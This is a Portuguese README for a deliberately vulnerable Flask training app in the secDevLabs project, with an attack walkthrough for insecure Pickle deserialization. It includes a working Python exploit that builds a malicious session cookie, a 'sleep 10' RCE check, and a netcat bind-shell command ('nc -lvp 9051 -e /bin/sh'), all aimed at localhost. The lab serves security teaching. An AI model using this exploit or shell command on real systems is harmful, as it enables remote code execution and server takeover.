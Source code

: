 # Amarelo Designs

[Access content in English](README.md)

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

Esta é uma aplicação web simples construída com Flask que contém um exemplo de vulnerabilidade de falha de integridade de software e dados e, seu principal objetivo é descrever como um usuário malicioso poderia explorar uma vulnerabilidade, instalada intencionalmente no Amarelo Designs do secDevLabs, para obter dados remotos cegos execução do código. 

## Index

- [Definição](#O-que-é-falha-de-integridade-de-software-e-dados)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)

## O que é falha de integridade de software e dados?

A serialização é o processo de tradução de estruturas de dados ou estado de objeto, em um formato que pode ser armazenado ou transmitido e reconstruído posteriormente. A desserialização insegura geralmente leva à execução remota de código. Mesmo que as falhas de desserialização não resultem em execução remota de código, elas podem ser usadas para realizar ataques, incluindo ataques de repetição, ataques de injeção e ataques de escalação de privilégios. 

O objetivo principal deste aplicativo é discutir como as vulnerabilidades **Software and Data Integrity Failure** podem ser exploradas e encorajar os desenvolvedores a enviar solicitações pull do secDevLabs sobre como mitigar essas falhas. 

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a8/amarelo-designs
```

```sh
make install
```

Depois é só visitar [localhost:10008][app] ! 😆

## Conheça o app 🎨

Para entender corretamente como esse aplicativo funciona, você pode seguir estes passos simples:

- Visite a página inicial!
- Dê uma olhada no portfólio

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### O uso de uma função de desserialização insegura permite a execução remota de código

É possível acessar a aplicação web do servidor a partir da porta HTTP 10008, como mostra a imagem abaixo:

<img src="images/attack1.png" align="center"/>

Fazendo uso da ferramenta [Dirb] para pesquisar páginas da web e diretórios comuns [wordlist], conseguimos encontrar `/user`, `/admin` e `/console`, como mostra a figura abaixo: (Se você deseja instalar o Dirb para Mac OS, certifique-se de clicar [aqui][4]) 

```sh
$ dirb http://localhost:10008 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

Ao ser acessada, a página `/admin` expõe uma tela de autenticação, conforme ilustrado na imagem: 

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥

Um teste rápido utilizando `admin` como credenciais para os campos `Username` e `Password`, nos dá acesso a um Admin Dashboard, conforme mostrado abaixo:

<img src="images/attack4.png" align="center"/>

Agora, usando o [Burp Suite] como proxy para interceptar a solicitação de login, podemos ver que o aplicativo retorna um cookie de sessão, `sessionId`, conforme ilustrado abaixo:

<img src="images/attack5.png" align="center"/>

Após decodificar o cookie, que está em base64, foi encontrada a seguinte estrutura:

<img src="images/attack6.png" align="center"/>

A estrutura encontrada é muito semelhante às criadas com a função [Pickle]. Podemos ter certeza disso dando uma olhada no [código][3] do aplicativo. A dica já está confirmada, o app usa Pickle, como podemos ver na imagem abaixo:

<img src="images/attack7.png" align="center"/>

Se um invasor souber que o aplicativo usa `Pickle` como método de serialização, ele poderá criar um cookie malicioso para aproveitá-lo e executar o código remotamente. Um exemplo de exploit (serializaPickle.py) no Python 3 que poderia produzir esse cookie poderia ser:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

Para ter certeza de que o aplicativo é explorável, enviaremos um comando de suspensão para que o aplicativo não responda por 10 segundos. Se o aplicativo demorar 10 segundos para retornar nossa solicitação, então está confirmado, o aplicativo é explorável. Como podemos ver na imagem abaixo, o aplicativo demora um pouco para retornar nossa solicitação, confirmando assim que é explorável e confirmando a execução remota do código:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:10008/user
```

<img src="images/attack9.png" align="center"/>

Para mostrar como um invasor pode ter acesso ao servidor por meio de um RCE, usaremos o código descrito na imagem abaixo para criar um shell de ligação na porta 9051 do servidor.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:10008/user
```

<img src="images/attack10.png" align="center"/>

O código usado acima cria um shell de ligação na porta 9051 do servidor, que está ouvindo as conexões de entrada. Depois disso, o invasor pode se conectar a essa porta usando um simples comando [netcat], conforme mostrado abaixo: 

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Execute código remotamente por meio de uma vulnerabilidade de serialização

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10008
[secdevlabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a8/amarelo-designs
[dirb]: https://tools.kali.org/web-applications/dirb
[burp suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a8/amarelo-designs/app/app.py
[pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
